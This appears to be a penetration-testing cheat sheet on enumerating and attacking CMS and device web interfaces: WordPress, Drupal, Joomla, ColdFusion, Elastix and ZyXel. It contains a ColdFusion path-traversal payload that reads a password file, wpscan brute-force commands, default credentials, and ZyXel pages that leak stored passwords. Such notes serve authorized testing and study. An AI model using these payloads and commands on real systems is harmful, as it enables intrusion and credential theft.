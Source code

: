 **Wordpress, Drupal, Adobe Cold Fusion, Elastix, Joomla, Mambo, ZyXel**

- Enumerate version and few other details
    - If don't found the version, download the source code and grep the version. We might found the page that contains the version then.
- Google their vulnerability
- Default password login page
- Guessing password login page?
## Adobe Cold Fusion

### Determine version

	/CFIDE/adminapi/base.cfc?wsdl

### Version 8 Vulnerability

- fckeditor
- LFI    
    `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`


## Drupal

### Droopescan

	droopescan scan drupal -u http://example.org/ -t 32

### Find version

	/CHANGELOG.txt

## Elastix

- Google the vulnerabitlities
- default login are `admin:admin` at `/vtigercrm/`
- able to upload shell in profile-photo
## Joomla

**Version**

	Metasploit
	/language/en-GB/en-GB.xml
	/administrator/manifests/files/joomla.xml
	/README.txt

- index.php?option=%component_name%task=%task_value%

- Admin page - `/administrator`

- Configuration files
	- configuration.php
	- diagnostics.php
	- joomla.inc.php
	- config.inc.php
## Mambo

#### Config files

	configuration.php	
	config.inc.php

## Wordpress

### Wpscan

	wpscan --url $ip/wp/
	wpscan --url $ip/wp/ -e u,vp
	wpscan --url $ip/wp/ -e u,ap

Bruteforce login page

	wpscan --url [url] --usernames [wordlist] --passwords [wordlist]

Random agent

	wpscan --url http://cybear32c.lab/ --random-agent

### Zoom.py - enumerate wordpress users

	python zoom.py -u <wordpress site>

### admin page

	/wp-admin
	/wp-login

### Configuration files

	setup-config.php
	wp-config.php

### Enumerate users

	wpscan --url $ip/wp/ -e u
	/?author=1, /?author=2,

### Bruteforce
	wpscan --url $IP --usernames $user --passwords /usr/share/wordlists/rockyou.txt
## ZyXel

	Configuration files
	
	/WAN.html (contains PPPoE ISP password)
	
	/WLAN_General.html and /WLAN.html (contains WEP key)
	
	/rpDyDNS.html (contains DDNS credentials)
	
	/Firewall_DefPolicy.html (Firewall)
	
	/CF_Keyword.html (Content Filter)
	
	/RemMagWWW.html (Remote MGMT)
	
	/rpSysAdmin.html (System)
	
	/LAN_IP.html (LAN)
	
	/NAT_General.html (NAT)
	
	/ViewLog.html (Logs)
	
	/rpFWUpload.html (Tools)
	
	/DiagGeneral.html (Diagnostic)
	
	/RemMagSNMP.html (SNMP Passwords)
	
	/LAN_ClientList.html (Current DHCP Leases)

	# Config Backups
	
	/RestoreCfg.html
	
	/BackupCfg.html